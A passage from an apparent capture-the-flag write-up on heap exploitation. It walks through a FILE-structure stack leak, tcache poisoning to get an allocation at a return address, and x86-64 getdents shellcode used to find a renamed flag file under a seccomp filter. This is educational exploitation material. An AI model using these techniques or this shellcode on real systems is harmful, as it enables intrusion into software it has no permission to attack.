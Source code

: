Detailed information about arbitrary memory read from file structures [here](https://gsec.hitb.org/materials/sg2018/D1%20-%20FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf)

Awesome , we have stack leak , now , re-edit tcache structure to get allocation at return address. Make sure the stack address should be 16-byte aligned else malloc will abort due to alignment issues.

## Shellcode and flag

All set and done , we get allocation at return address. From here , it's a fairly simple problem to mprotect `heap` and give an `orw` shellcode. But wait , there is one problem.

Looking at the `Dockerfile` we saw , this line

```sh
CMD mv /home/ctf/flag.txt /home/ctf/[REDACTED]_flag.txt
```

So , the flag file name is unknown now. Looking at seccomp filters , we see that , we have `getdents` syscall allowed which is exactly what we need now. 

Getdents allows us to list all files in a directory. We will choose `.` directory and get all file names.

The shellcode for getdents is 

```sh

        /* open('.') */
        mov rdi, 0x2e
        push 0
        push rdi
        push rsp
        pop rdi
        mov rax, 2
        xor rsi, rsi
        cdq
        syscall

        /* getdents */
        mov rdi, rax
        mov rax, 0x4e
        lea rsi, [rbp-0x70]
        cdq
        mov dh, 0x10
        syscall

        /* write */
        mov rdi, 1
        lea rsi, [rbp-0x70]
        mov rdx, rax
        mov rax, 1
        syscall
```
